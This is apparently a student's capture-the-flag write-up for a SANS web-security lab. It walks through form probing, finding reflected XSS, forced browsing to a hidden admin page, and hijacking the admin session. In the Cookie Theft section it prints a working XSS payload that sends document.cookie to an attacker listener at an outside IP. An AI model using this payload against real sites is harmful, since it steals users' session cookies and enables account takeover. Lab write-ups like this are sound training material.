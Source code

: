 # Contact

* Challenge - Interact with the contact form on the http://www.issplaylist.com website. What is the flag returned as the reference number?
* Points - 3

First, I navigated to the website in the question. From there, I clicked "Contact" in the navbar at the top of the site to go to the contact form. After that, I submitted the form with expected input to get the flag. 

![Contact-1](https://github.com/user-attachments/assets/554573b6-cf11-4d39-a61c-cf6ef2dabf2f)

![Contact-2](https://github.com/user-attachments/assets/b3b72e0c-c945-4e90-9853-8fc67ccccce5)


# Vulnerability Discovery

* Challenge - Explore the Contact page on the http://www.issplaylist.com website to identify a vulnerability. Identify the type of vulnerability.
* Points - 5

First, I tried experiemnting with including a ' in the fields to get an SQL error. That did not work, as I got the same flag as the previous challenge. 

![Vulnerability-Discovery-1](https://github.com/user-attachments/assets/9e6c2acb-21c3-492b-bed5-c3d5f6de6aa3)

Then I tested for a different input based vulnerability by typing the hr HTML tag into each field of the contact form. I noticed the horizontal line from the hr HTML tag was displayed on the page. 

![Vulnerability-Discovery-2](https://github.com/user-attachments/assets/da88e1ea-a407-428c-8be7-c17f6c381823)

This means my input was reflected on the page. To confirm this, I viewed the page source, and used CTRL + F to look for my input, the hr HTML tag. The page source shows my input.  

![Vulnerability-Discovery-3](https://github.com/user-attachments/assets/5fcfa96a-4913-4b4c-9a2b-12733f806139)


# Forced Browsing

* Challenge - Identify the hidden page on the http://www.issplaylist.com server. Submit the page name (XXXXX.html).
* Points - 5

Typically, administrators pages are hidden from normal users. If a web server is misconfigured, you can just go straight to the administrator page with a forced browsing attack. From the question, we know the page name is five characters. With that knowledge, I find the answer.  

![Forced-Browsing-1](https://github.com/user-attachments/assets/3d6c7c7c-4629-4a5d-a35c-6871f3924e4f)


# Cookie Theft

* Challenge - Administrators for the http://www.issplaylist.com site frequently examine the contact page submissions using their browsers. Exploit the site vulnerability to steal cookie content from the administrator. What is the name of the cookie used to authenticate administrative users?
* Points - 5

From the Vulnerability Discovery challenge, I know the site is vulnerable to reflected XSS. In Lab 4.4 from the course, SANS supplied to us a cookiecatcher PHP file. I started a PHP web server to listen for the cookie.

![Cookie Theft-2](https://github.com/user-attachments/assets/2c7745ff-5355-45e6-b776-8a5f270ba28d)

After starting the listener on my attacker terminal, I went back to the browser. At the contact form, I put the following string in all of the fields then submited the form - <script>document.location='http://10.142.148.12:2222/?'+document.cookie;</script>

![Cookie Theft-3](https://github.com/user-attachments/assets/27d2e9b7-6333-4f3a-9d7d-363310cc713b)


Going back to my attacker terminal, where the cookiecatcher PHP file is running, I can see the name of the stolen cookie. 

![396193111-3f8a0591-ff61-47d9-ad03-60ac8a6ae1ed](https://github.com/user-attachments/assets/54c44f79-0f51-4ca6-b5c6-1a05b60ffecf)


# Unauthorized Access

* Challenge - Use the stolen cookie to access the admin page. Submit the flag.
* Points - 5

Now that I have the cookie for admin from the Cookie Theft challenge, I can use curl and the -b argument to specify a token and return the content of that page as if I were logging in as admin. In my attacker terminal, I ran a curl command to get access to the admin page.

This returned the admin page output. Scroll down to see the flag. 
![396193111-3f8a0591-ff61-47d9-ad03-60ac8a6ae1ed](https://github.com/user-attachments/assets/374ca600-ede7-44a5-8a2e-c04462682c60)
![396193111-3f8a0591-ff61-47d9-ad03-60ac8a6ae1ed](https://github.com/user-attachments/assets/391d29fd-1221-4379-9ae1-4cefed9fa3a1)
